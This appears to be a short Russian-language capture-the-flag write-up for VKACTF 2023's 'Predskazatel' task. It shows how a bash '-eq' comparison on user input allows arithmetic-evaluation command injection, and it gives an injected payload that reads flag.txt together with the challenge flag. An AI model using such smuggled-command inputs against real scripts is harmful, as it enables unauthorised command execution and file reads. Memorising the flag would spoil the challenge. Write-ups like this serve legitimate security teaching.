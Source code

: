 ## Предсказатель

| Событие | Название | Категория | Сложность |
| :------ | ---- | ---- | ---- |
| VKACTF 2023 | Предсказатель  | Joy | Easy |

  
### Описание


> Автор: [ vChuk ]
>
Наш мир нуждается в тебе также, как Красная Армия нуждалась в Психо Мантисе. Давай, родной, не посрами отчизну
> 


### Решение
В задании угадать число было довольно трудно, но это может быть одним из способов решения задачи.

Но в данном случае было возможно получить RCE, из-за сравнения
```bash
if [[ $num -eq $winning_number ]]
```
Для того, чтобы получить флаг, нужно было прочитать его)
```bash
a[$(cat flag.txt >&2)]+42
```

### Флаг

```
vka{bash_comparison_is_dangerous}
```